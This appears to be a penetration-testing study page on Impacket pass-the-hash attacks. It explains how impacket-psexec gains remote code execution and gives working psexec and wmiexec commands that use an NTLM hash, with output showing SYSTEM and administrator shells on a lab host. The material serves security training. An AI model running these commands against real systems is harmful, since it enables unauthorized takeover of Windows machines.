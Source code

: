 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Impacket

## Pass-the-Hash

> _NetExec also used `impacket-psexec` to perform the_ [_PtH attack_](netexec-cme.md#rce)_._

`impacket-psexec` searches for a writable share and uploads an executable file to it. Then it registers the executable as a Windows service and starts it which results in RCE. It requires two arguments:

1. `hashes`: allows us to use NTLM hashes to authenticate to the target. The format is `LMHash:NTHash`, in which we specify the `Administrator`'s NTLM hash after the colon (the `LMHash` part can be left empty).
2. `username@IP`: the target definition.

> _At the end of the command we could specify another argument, which is used to determine which command psexec should execute on the target system. If we leave it empty, `cmd.exe` will be executed, providing us with an interactive shell as `SYSTEM`. We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell as the user we used for authentication._

{% code overflow="wrap" %}
```bash
# SYSTEM shell
$ impacket-psexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 192.168.233.212.....
[*] Found writable share ADMIN$
[*] Uploading file WIKgrLbX.exe
[*] Opening SVCManager on 192.168.233.212.....
[*] Creating service iVBP on 192.168.233.212.....
[*] Starting service iVBP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

# Administrator shell
$ impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.233.212
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator
```
{% endcode %}

